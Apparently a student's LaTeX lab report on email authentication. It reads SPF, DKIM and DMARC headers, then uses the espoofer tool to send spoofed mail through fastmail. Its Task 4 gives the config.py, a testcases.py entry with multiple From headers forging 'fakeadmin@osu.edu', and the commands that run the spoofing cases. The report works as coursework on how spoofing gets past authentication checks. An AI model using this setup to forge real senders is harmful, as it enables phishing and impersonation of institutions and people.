       arc=pass (i=1 spf=pass spfdomain=buckeyemail.osu.edu dkim=pass dkdomain=buckeyemail.osu.edu dmarc=pass fromdomain=buckeyemail.osu.edu);
       spf=pass (google.com: domain of yao.740@buckeyemail.osu.edu designates 148.163.151.149 as permitted sender) smtp.mailfrom=yao.740@buckeyemail.osu.edu;
       dmarc=pass (p=NONE sp=NONE dis=NONE) header.from=buckeyemail.osu.edu
\end{lstlisting}\vspace{-6mm}

\textbf{Question 1 (10 points).} Based on the \dkim record, what is the signature algorithm used in signature generation?

\begin{itemize}
  \item \texttt{rsa-sha256}
\end{itemize}

\textbf{Question 2 (10 points).} What are the signed header fields (i.e., what are the values of field ``h'')?

\begin{itemize}
  \item \texttt{h=from : to : subject : date : message-id : content-type : mime-version;}
\end{itemize}

\begin{figure} [h]
\centering
\vspace{-2mm}

\includegraphics[width=0.7\columnwidth]{dkim2}
\caption{View Message Details of OSU email}\label{fig:showmsg2}
\end{figure}

\textbf{Question 3 (5 points).} Send an email using gmail to your osu email and check \spf, \dkim and \dmark records in your osu email inbox. The approach for this is similar to gmail (See \autoref{fig:showmsg2}). What is the signature algorithm used in signature generation for gmail? and what are the signed header fields?

\begin{lstlisting}
DKIM-Signature: v=1; a=rsa-sha256; c=relaxed/relaxed;
d=gmail.com; s=20161025;
h=mime-version:from:date:message-id:subject:to;
bh=aReFFVH0f2xIadxGmvsauTSLrnwdBpUa/WMhgEHdorU=;
b=GuWLmK9YN0hMDPmaPIBasUn+PO2FeGK2NO/l7HX+kNdvyJqpgOglZ3+0YoPlGutmni
41n+kLhrY3fMBGtvFO/nrLn8NoZsI9AtDICC2mY5I3hFDYM8DyGML6QAhYIes+9BcHdg
0APUejGMaj5m8owJytHKueWjjY95GvVJGZZ/PCKxV8xmVU8LDKXQTPiMjkJJiE30PoZR
b+3+p7EgFz6vj69wtbIBPxzPU34SyazliYLyJDIwjowbuEae/rkaiTWv44Cq4VHuSJli
dnf/RZXiovF24XJBilO2+02Keif0e1nmWKlCey7bQUF/P6E5msRX5hzGAR8UERYR/fhp
jCEw==
\end{lstlisting}\vspace{-6mm}

\begin{itemize}
  \item \texttt{rsa-sha256}
  \item \texttt{h=mime-version:from:date:message-id:subject:to;}
\end{itemize}

\textbf{Question 4 (5 points).} Send an email using GMAIL to your GMAIL, and check \spf, \dkim and \dmark records. What do you observe? Why is that?

\begin{lstlisting}
ARC-Authentication-Results: i=1; mx.google.com;
       dkim=pass header.i=@gmail.com header.s=20161025 header.b=hfsF2YZ4;
       spf=pass (google.com: domain of x*********3@gmail.com designates 209.85.220.41 as permitted sender) smtp.mailfrom=x*********3@gmail.com;
       dmarc=pass (p=NONE sp=QUARANTINE dis=NONE) header.from=gmail.com
Return-Path: <x*********3@gmail.com>
Received: from mail-sor-f41.google.com (mail-sor-f41.google.com. [209.85.220.41])
        by mx.google.com with SMTPS id v2sor1267081oig.6.2020.11.07.11.22.29
        for <f********n@gmail.com>
        (Google Transport Security);
        Sat, 07 Nov 2020 11:22:29 -0800 (PST)
Received-SPF: pass (google.com: domain of x*********3@gmail.com designates 209.85.220.41 as permitted sender) client-ip=209.85.220.41;
Authentication-Results: mx.google.com;
       dkim=pass header.i=@gmail.com header.s=20161025 header.b=hfsF2YZ4;
       spf=pass (google.com: domain of x*********3@gmail.com designates 209.85.220.41 as permitted sender) smtp.mailfrom=x*********3@gmail.com;
       dmarc=pass (p=NONE sp=QUARANTINE dis=NONE) header.from=gmail.com
\end{lstlisting}\vspace{-6mm}

\begin{itemize}
  \item No \spf, \dkim and \dmark records when we are using same Google Account (never transmitted through the Internet).
  \item \spf, \dkim and \dmark pass when we are using different Google Account.
\end{itemize}

\end{enumerate}



\subsection{Task~4: Security analysis on \textsf{fastmail} using \espoofer (40 points)}

In this experiment, we will conduct the security analysis on the \textsf{fastmail} using \espoofer. The \espoofer is a tool that can be used to deploy email spoofing attacks. Please do not launch attacks against any accounts other than your own one.  As shown in \autoref{fig:workflow}, \espoofer has two work modes: (1) server mode, which works as an email server to launch the spoofing attacks against the receiving services directly; (2) client mode, which works as an email client to work against the sending services and the  receiving services. In this experiment, we focus on the client mode, since the server mode requires the tester to have a public domain.



The attacks are possible because the validations on sending email services are insufficient. Therefore, we need an account on the vulnerable email sending services to run \espoofer.  We find \textsf{fastmail} is vulnerable to this attack (As of October 26 2020, the server is still vulnerable).

\begin{figure} [h]
\centering
\vspace{-2mm}

\includegraphics[width=0.88\columnwidth]{espoofer}

\caption{\espoofer workflow}\label{fig:workflow}
\end{figure}

\begin{enumerate}
\item Register an account from fastmail via \url{https://www.fastmail.com/signup/}.
\item Create a password for third party app (e.g., Outlook software) to login onto \texttt{fastmail} server. By default, \texttt{fastmail} does not allow a third party app to login onto its server and it only allows the third party app to use an App Password to login onto. In this experiment, \espoofer is a third party and therefore, to run \espoofer, we need to create a App Password for \espoofer.
\item Click \url{https://www.fastmail.com/settings/security/devicekeys} to generate ``App Passwords'' (See \autoref{fig:apppass}).
\begin{itemize}
\item Input your password and press the ``Unlock'' button.
\item Press ``New App Password'' button.
\item Select a name for you to identify the App password and then grant the access. Press ``Generate Password''.
\item   The screen the display the App password. Save the password into a text file for later usage. Press ``Done'' to finish the creating process.
\end{itemize}


\begin{figure}[h]
\centering
\vspace{-2mm}

\includegraphics[width=0.8\columnwidth]{apppass}
\caption{Generate App Password}\label{fig:apppass}
\end{figure}

\item Open the \espoofer folder and edit \texttt{config.py} using the registered account and App Password.

\begin{lstlisting}
config ={
  "legitimate_site_address": b"fakeadmin@osu.edu",  # the spoofed email address
  "victim_address": b"attacker@fastmail.com", # Your account username
  "case_id": b"client_a1",

  "client_mode": {
    "sending_server": ("smtp.fastmail.com", 587),  # SMTP sending serve ip and port
    "username": b"attacker@fastmail.com", # Your account username and App password
    "password": b"App Password",
  },
}

\end{lstlisting}\vspace{-6mm}

\item Edit \texttt{testcases.py} to customize the content and the subject of your spoofing email.
\begin{lstlisting}
"client_a1": {
          "helo": b"espoofer-MacBook-Pro.local",
          "mailfrom": b"<attacker@example.com>",
          "rcptto": b"<victim@victim.com>",
          # "dkim_para": {"d":b"legitimate.com(.attack.com", "s":b"selector", "sign_header": b"From: <ceo@legitimate.com>"},
          "data": {
              "from_header": b"From: <attacker@example.com>\r\nFrom: <admin@example.com>\r\n",
              "to_header": b"To: <victim@victim.com>\r\n",
              "subject_header": b"Subject: client A1: Multiple From headers\r\n",
              "body": b"Hi, this is a test message! Best wishes.\r\n", # Content and Subject
              "other_headers": b"Date: " + get_date() + b"\r\n" + b'Content-Type: text/plain; charset="UTF-8"\r\nMIME-Version: 1.0\r\nMessage-ID: <1538085644648.096e3d4e-bc38-4027-b57e-' + id_generator() + b'@message-ids.attack.com>\r\nX-Email-Client: https://github.com/chenjj/espoofer\r\n\r\n',
          },
          "description": b"Spoofing via an email service account using multiple From headers, refer to section 6.2 in the paper."
      }
\end{lstlisting}\vspace{-6mm}

\item Run \espoofer and you will receive a spoofed email in your inbox. Have fun!
\begin{lstlisting}
$ python3 espoofer.py -m c -id client_a1
\end{lstlisting}\vspace{-6mm}

\textbf{Question 1 (10 Points).} Examine the python code of \texttt{testcases.py} and explain why the attack works (e.g., the tool exploit what type of the vulnerability).

\begin{itemize}
  \item From the \texttt{testcases.py}, the attacker is taking advantage of miscommunication between different components. The receiving server will use multiple compoments to validate an email's authenticity. However, there are multiple protocols were called during the authentication process, and each compoment was designed independently which caused the issue.
\end{itemize}

\textbf{Question 2 (10 Points).} Put a screenshot into your report to show you have launched the attack successfully (i.e., you will receive an email from \texttt{fakeadmin@osu.edu}, and please take a screenshot).

\begin{itemize}
  \item 
\includegraphics[width=0.88\columnwidth]{a1.png}
\end{itemize}

\textbf{Question 3 (10 Points).} Execute the following commands to observe if the attacks still work.  If yes, explain why the attacks work.

\begin{lstlisting}
$ python3 espoofer.py -m c -id client_a2
$ python3 espoofer.py -m c -id client_a3
\end{lstlisting}\vspace{-6mm}

\begin{itemize}
  \item For client\_a2, it is ``spoofing via an email service account using multiple address''. In this case, espoofer is using HELO/MAIL FROM confusion which includes two address (one of them is legitimate to pass the validation).
  \item For client\_a3, it is ``spoofing via an email service account''. In this case, espoffer is using ambiguous domains (failed to pass \dmark, \spf was neutral, and \dkim was passed, but the client did not warn).
\end{itemize}

\textbf{Question 4 (10 Points).} Upload a screenshot into your report to show the result.

\begin{itemize}
